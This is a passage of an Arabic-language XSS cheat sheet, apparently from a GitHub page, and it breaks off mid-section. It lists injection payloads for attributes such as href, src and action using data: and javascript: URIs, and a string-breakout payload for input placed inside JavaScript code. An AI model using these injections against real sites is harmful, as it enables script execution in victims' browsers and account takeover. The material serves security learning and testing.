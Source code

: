 
-----



------

-----
## 9️⃣ استخدام  امر ال data يُستخدم عندما تُدرج المدخلات كقيمة لخصائص مثل href، src،  أو action (وformaction)
{ #ideas_for_url }
#### الشرح:



#### البايلود اللي في الشرح 
```
data:,alert(1)
<script src=data:,alert(1)>
<object data="data:text/html,<script>alert(1)</script>">
<form action=javascript:alert(1)>
```


----

## 🔟  لما تلاقي البايلود بيروح داخل كود زي كده `"var name = "YOUR_INPUT`
{ #XSS_other_idea / #XSS_with_out_angle_bracket  }
📌 **تستخدمها لما تلاقي اسمك أو مدخلك جوه سلسلة زي كده:**

```js
var name = "YOUR_INPUT";
```

👨‍💻 وبتلاحظ إن الصفحة بتستخدم تهريب تلقائي للعلامات زي `\"` أو `\'`

🧪 **الحل:** تزود شرطة مائلة `\` تانية عشان تكسر الحماية وتغلق السلسلة وتحقن الكود:

```js
name = "\"; alert(1);//"
```

---

## 1️⃣1️⃣   لما تلاقي البايلود بيروح داخل كود ال *if* أو **function** أو **loop**
{ #XSS_with_out_angle_bracket /  #XSS_other_idea }
📌 تستخدمها لما يكون المدخل بتاعك جوه **if** أو **function** أو **loop**

زي:

```js
if (user == 'INPUT_HERE') {
  // do something
}
```
